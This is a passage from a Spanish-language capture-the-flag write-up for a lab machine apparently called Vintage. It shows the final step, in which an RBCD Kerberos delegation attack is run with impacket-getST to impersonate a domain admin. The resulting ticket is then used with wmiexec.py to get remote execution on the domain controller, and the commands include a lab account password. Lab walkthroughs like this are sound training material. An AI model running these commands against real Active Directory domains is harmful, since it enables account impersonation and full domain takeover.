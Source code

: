 <figure><img src="../../../.gitbook/assets/2756_vmware_n8moCcEObQ.png" alt=""><figcaption></figcaption></figure>

Obtenido el TGT del uisuario (svc\_sql@vintage.htb), teniendo el SPN ficticio asignado a este usuario, procederemos a realizar el **RBCD Attack** mediante la herramienta de **impacket-getST** para impersonar al usuario (l.bianchi\_admin@vintage.htb).

Una vez tengamos el TGT del usuario impersonado, procederemos a expotarlo en la variable _KRB5CCNAME_ y de acceder al Domain Controller mediante **wmiexec.py** a través del TGT solicitado.

Verificamos que ganamos acceso al Domain Controller siendo el Domain Admin (l.bianchi\_adm@vintage.htb) y podemos verificar la flag de **root.txt**.

{% code overflow="wrap" %}
```bash
impacket-getST -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0ne' 2>/dev/mull

KRB5CCNAME=L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache wmiexec.py dc01.vintage.htb -k -no-pass
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2757_vmware_C4O6dGBMBq.png" alt=""><figcaption></figcaption></figure>
